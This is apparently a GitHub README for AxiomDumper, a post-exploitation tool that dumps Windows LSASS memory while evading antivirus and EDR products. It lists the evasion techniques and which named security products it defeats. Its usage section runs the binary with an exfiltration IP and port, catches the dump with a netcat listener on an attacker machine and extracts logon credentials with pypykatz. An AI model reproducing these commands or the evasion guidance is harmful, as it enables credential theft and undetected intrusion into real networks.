

## AxiomDumper

Post-exploitation C++ tool to dump LSASS memory discreetly, without triggering AV/EDR alerts.



AxiomDumper implements LSASS dump via multiple evasion techniques. Non-exhaustive list includes :
- Indirect Syscalls with in-ntdll return
- Minidump reimplementation to avoid the use of WINAPI's Minidump function
- Custom MD5 hashing of sensitive of potentially suspicious strings
- Duplication of SYSTEM handles opened towards LSASS to avoid opening such handles ourselves
- Reimplementation of common glibc functions to permit the use of functions considereed unsafe otherwise
- And more ... :)

Tested against :
- Windows Defender AV & XDR : SUCCESS
- Cortex XDR 8.5.0 : SUCCESS
- Elastic Security with all open-sourced yar rules : SUCCESS
- HarfangLab : SUCCESS
- WithSecure 2.6.2 : SUCCESS
- Sentinel ONE : FAILURE :/
- Crowdstrike Falcon : FAILURE :/

TODO list :
- Find a way to avoid the use of NtOpenProcess() with PROCESS_DUP_HANDLE flag. It is flagged by some EDRs.
- Implement custom call-stack building to avoid EDRs flagging on weird looking call stacks (looking at you Sentinel ONE). Indirect Syscalls alone have become insufficient.

## Usage

Just run the binary as Administrator, passing the exfiltration IP and PORT as arguments.

Examples :
```powershell
PS> whoami
adlab/administrator
PS> AxiomDumper.exe 192.168.57.1 9001
PS> AxiomDumper.exe 13.37.42.69 8888
```

On your attacker box, simply run a netcat listener and redirect output to a file :
```bash
$ nc -nlvp 9001 > /tmp/lsass.dmp
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 192.168.57.21.
Ncat: Connection from 192.168.57.21:54093.

$ pypykatz lsa minidump /tmp/lsass.dmp
INFO:pypykatz:Parsing file /tmp/lsass.dmp
FILE: ======== /tmp/lsass.dmp =======
== LogonSession ==
authentication_id 4406268 (433bfc)
session_id 1
username Administrator
domainname ADLAB
logon_server ADLAB-DC01
...

```

## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## Notes

(Non-extensive) testing has shown that the binary if more prone to being flagged in built with debugging symbols (duh). Make sure to build in release mode.

